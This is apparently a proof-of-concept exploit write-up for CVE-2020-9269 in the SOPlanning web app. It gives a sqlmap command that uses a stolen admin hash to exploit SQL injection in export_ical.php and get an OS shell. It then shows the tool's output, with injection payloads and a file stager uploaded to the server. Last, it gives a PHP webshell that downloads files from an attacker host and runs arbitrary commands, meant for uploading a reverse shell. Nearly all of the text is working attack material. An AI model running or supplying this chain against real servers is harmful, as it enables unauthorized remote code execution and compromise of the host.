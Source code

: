 CVE-2020-9269

Once you have extracted the admin hash, you can now use that to get command execution on the machine through another SQL Injection.

Save the admin hash and insert it into SQLMap as such: 
````
sqlmap -u 'http://HOSTHERE/soplanning/www/export_ical.php?login=admin&hash=HASHHERE&nocache&users=ADM&age=3' -p users --risk=3 --level=5 --threads=10 --dbms=mysql --keep-alive --os-shell\
````

Now you have a web shell uploaded to the server:
````
11:52:31] [INFO] GET parameter 'users' is 'MySQL UNION query (NULL) - 41 to 60 columns' injectable
GET parameter 'users' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 2122 HTTP(s) requests:
---
Parameter: users (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: login=admin&hash=0eb87cdffc77dce2baabfd6c4dddc264&nocache&users=ADM') AND (SELECT 6911 FROM (SELECT(SLEEP(5)))GfEH) AND ('gglk'='gglk&age=3

    Type: UNION query
    Title: MySQL UNION query (NULL) - 42 columns
    Payload: login=admin&hash=0eb87cdffc77dce2baabfd6c4dddc264&nocache&users=ADM') UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7162767171,0x4e6564784469636f6a4f5867627a44744f517452677545755a455a694c4d676f436a776f66645547,0x716a707171),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL#&age=3
---
[11:53:02] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.41, PHP 7.2.26
back-end DBMS: MySQL >= 5.0.12
[11:53:02] [INFO] going to use a web backdoor for command prompt
[11:53:02] [INFO] fingerprinting the back-end DBMS operating system
[11:53:02] [INFO] the back-end DBMS operating system is Windows
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 4
do you want sqlmap to further try to provoke the full path disclosure? [Y/n] n
[11:53:07] [WARNING] unable to automatically retrieve the web server document root
what do you want to use for writable directory?
[1] common location(s) ('C:/xampp/htdocs/, C:/wamp/www/, C:/Inetpub/wwwroot/') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 2
please provide a comma separate list of absolute directory paths: C:\xampp\htdocs\soplanning\www
[11:53:23] [WARNING] unable to automatically parse any web server path
[11:53:23] [INFO] trying to upload the file stager on 'C:/xampp/htdocs/soplanning/www/' via LIMIT 'LINES TERMINATED BY' method
[11:53:23] [WARNING] unable to upload the file stager on 'C:/xampp/htdocs/soplanning/www/'
[11:53:23] [INFO] trying to upload the file stager on 'C:/xampp/htdocs/soplanning/www/' via UNION method
[11:53:23] [WARNING] expect junk characters inside the file as a leftover from UNION query
[11:53:23] [INFO] the remote file 'C:/xampp/htdocs/soplanning/www/tmpubhkt.php' is larger (768 B) than the local file '/tmp/sqlmapi5F_1P150931/tmpEOtI5R' (727B)
[11:53:23] [INFO] the file stager has been successfully uploaded on 'C:/xampp/htdocs/soplanning/www/' - http://HOST/soplanning/www/tmpubhkt.php
````

Using that webshell you can upload your reverse shell.

Props to FalconSpy (https://twitter.com/0xfalconspy) for the small webshell:
````
<?php if (isset($_REQUEST[‘fupload’])) { file_put_contents($_REQUEST[‘fupload’], file_get_contents(‘http://IP_ADDR/' . $_REQUEST[‘fupload’])); }; if (isset($_REQUEST[‘fexec’])) { echo ‘<pre>’ . shell_exec($_REQUEST[‘fexec’]) . ‘</pre>’; }; ?>
````
Use that to upload and execute your shell after the SQLMap stager is uploaded.


Mad props to : https://twitter.com/HackingHomebre1 for the POC creation and assist.
